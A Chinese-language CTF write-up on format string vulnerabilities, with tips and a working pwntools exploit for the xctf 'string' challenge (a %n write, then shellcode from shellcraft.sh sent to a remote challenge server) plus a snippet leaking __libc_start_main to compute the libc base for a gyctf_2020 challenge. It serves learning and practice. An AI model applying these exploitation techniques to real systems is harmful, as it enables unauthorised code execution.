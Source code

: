 ```yaml
---
title: FormatString 
tags: [ctf-pwn,fmt]
date: 2023-10-23 13:48:00
categories: [ctf-pwn]
excerpt: xctf-pwn string
---
```


#### xctf string

![](/img/ctf-pwn/FormatString/1.png)

简单的格式化字符串

这道题目需要注意的点包括

1. 题目中用%x打印出来的地址，可以直接用`int(...,16)`来接收，不要用ljust那一套。。。（-_-||

2. 在利用格式化字符串漏洞的时候，如果用`p64(addr)  + %n(或者%p)...`时，要先保证addr没有`\0`

   就像这道题，我一开始就非得不用它那个%ld输入要写入的地址，就非要把x[0]的地址和后面那一串一起写进去，后果就是print(format)时候根本不会打印aaaa.....和%n，因为地址里有\0，直接停止了😭还在那看了好半天是不是地址的格式问题

3. `shellcraft.sh`用之前**一定要先指定平台 **` context(arch='amd64', os='linux')`

   

exp:

```python
from pwn import *

#p = process("./1d3c852354df4609bf8e56fe8e9df316")
p = remote("61.147.171.105", 58702)

context(arch='amd64', os='linux')

e = ELF("./1d3c852354df4609bf8e56fe8e9df316")

#gdb.attach(p, "b *0x400d36")

p.recvuntil(b"secret[0] is ")
x0 = int(p.recvuntil(b"\n")[:-1], 16)
print(hex(x0))

p.recvuntil(b"What should your character's name be:\n")
p.sendline(b"123")

p.recvuntil(b"So, where you will go?east or up?:")
p.sendline(b"east")
p.recvuntil(b"go into there(1), or leave(0)?:\n")
p.sendline(b"1")

p.recvuntil(b"\'Give me an address\'\n")
p.sendline(str(x0))

p.recvuntil(b"And, you wish is:\n")

payload = b'a' * 85 + b"%7$n"
#payload = b'aaaaaaaa' + b"%p%p%p%p-%p%p%p%p-%p%p%p%p-%p%p%p%p"
p.sendline(payload)

p.recvuntil(b"That's sound terrible! you meet final boss!but you level is ONE!\n")
p.recvuntil(b"Wizard: I will help you! USE YOU SPELL\n")

#shellcode = '\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05'

shellcode = asm(shellcraft.sh())


p.sendline(shellcode)

p.interactive()
```



#### gyctf_2020_some_thing_interesting

<https://buuoj.cn/challenges#gyctf_2020_some_thing_interesting>

本地运行不起来，不知道是什么原因。

直接在栈上泄露返回`__libc_start_main`的偏移地址，算出libc

参考 <https://blog.csdn.net/mcmuyanga/article/details/114643601>

![](/img/ctf-pwn/FormatString/2.jpg)

```python
r.recvuntil("> Input your code please:")
r.sendline("OreOOrereOOreO%17$p")	#elf 11 libc 17

r.recvuntil("#######################\n")
r.sendline('0')
r.recvuntil("# Your Code is ")
r.recvuntil('0x')

start_main = int(r.recv(12), 16) - 0xf0
libc.address = start_main - libc.sym['__libc_start_main']
```



